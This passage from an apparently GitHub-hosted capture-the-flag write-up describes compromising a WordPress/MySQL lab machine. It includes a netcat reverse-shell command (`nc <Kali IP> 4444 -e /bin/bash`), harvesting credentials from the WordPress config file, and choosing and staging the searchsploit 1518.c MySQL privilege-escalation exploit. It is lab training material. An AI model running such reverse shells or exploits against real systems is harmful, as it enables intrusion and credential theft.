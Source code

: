       - Next, used this exploit to open backdoor reverse shell on the target. So on Kali VM, netcat listner was started:
      
        ![offe tag2 10](https://user-images.githubusercontent.com/101371476/169656204-b3818237-243a-4534-a112-fe6f174c9acc.png)

      - In the browser, command `nc <Kali IP> 4444 -e /bin/bash` was used to connect the reverse shell
      ![offe tag2 11](https://user-images.githubusercontent.com/101371476/169656219-2b62365d-1ec7-4c2b-9a8b-0877e9a736ae.png)

      ![offe tag2 12](https://user-images.githubusercontent.com/101371476/169656227-e5ac3270-c4eb-4e6a-b196-37b8fd9053a3.png)

      - using the shell opened, flag 2 was located. <br>
      ![offe tag2 13](https://user-images.githubusercontent.com/101371476/169656246-4a0a8fbe-e5dc-41c5-b5e3-df3ecc0008e7.png)



  - `flag3.txt`: a0f568aa9de277887f37730d71520d9b
    - **Exploit Used**
      - flag 3 was found within the WordPress uploads directory, by using find command
      ![0ffe tag3 1](https://user-images.githubusercontent.com/101371476/169656347-49dd6ef5-7266-4793-8cac-00cebfbf6367.png)

      ![offe tag3 2](https://user-images.githubusercontent.com/101371476/169656371-1e0c21e3-2848-4c21-ab93-635943a97903.png)

     ![offe tag3 3](https://user-images.githubusercontent.com/101371476/169656394-70169e56-a421-47fd-894a-d4a929db395e.png)


  - `flag4.txt`: df2bc5e951d91581467bb9a2a8ff4425
    - **Exploit Used**
      - Went to check on the Wordpress Configuration file to check on the username and password
      ![offe tag3 4](https://user-images.githubusercontent.com/101371476/169656439-ecd8e121-401c-4477-9382-cabc7fe4cde3.png)

      - Tried to log into mysql using the credentials, and found the version of the MySQL.: 5.5.60
      ![offe tag3 5](https://user-images.githubusercontent.com/101371476/169656450-9b6983cd-0781-4476-ac27-a59be8550714.png)

      - with this version of mysql, privilege Escalation exploit can be used to climb the ladder within the system. 
      - In order to find the right exploit, searchsploit was used:
      ![offe tag3 6](https://user-images.githubusercontent.com/101371476/169656488-1fc5dad5-1f57-409d-a15d-a622df26ddf3.png)

      - Decided to use `1518.c` exploit
      - Looked through the exploit file itself to see if there was any written instruction as to how to use this exploit
      ![offe tag3 7](https://user-images.githubusercontent.com/101371476/169656506-0b84cb00-f88b-41cd-be17-5bcc1ac5c068.png)

      ![offe tag3 8](https://user-images.githubusercontent.com/101371476/169656524-bdc841ad-37a0-481f-9bf7-7a4cef45f129.png)

      - Written instruction was clear. Once the confirmation to use this exploit was set, exploit was copied from the searchsploit library to the Kali desktop. Then, exploit file was modified to this specific usage:
      ![offe tag3 9](https://user-images.githubusercontent.com/101371476/169656571-2a10b4c0-a7e0-45b8-8b63-4eb9f6d8deec.png)

      - Now, we have to move this exploit file to the target victim's computer.
      - To do so, I've started apache2 service from Kali:<br>
      ![offe tag3 10](https://user-images.githubusercontent.com/101371476/169656596-0b1deefc-4d83-4382-a51b-ee4c067c885b.png)
